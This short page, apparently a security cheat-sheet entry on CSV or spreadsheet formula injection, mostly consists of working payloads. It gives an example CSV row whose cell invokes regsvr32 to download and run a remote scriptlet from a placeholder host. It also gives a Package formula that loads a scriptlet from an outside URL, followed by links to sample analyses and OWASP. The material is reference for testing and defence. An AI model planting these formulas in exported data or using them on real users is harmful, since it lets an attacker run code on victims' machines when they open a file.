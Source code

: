 # Example CSV:
```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://RemoteIPAddress/SCTLauncher.sct scrobj.dll'!''
```

# Inject MicroSoft scriptlet

```
=Package|’scRiPt:http://example.com/srcipt.xml’!””
```

Analysis of in the wild sample:

- [lastline](https://www.lastline.com/labsblog/when-scriptlets-attack-excels-alternative-to-dde-code-execution/)
- [freebuf](http://www.freebuf.com/articles/system/156900.html)

# Links:

- [OWASP: CSV Injection](https://www.owasp.org/index.php/CSV_Injection)
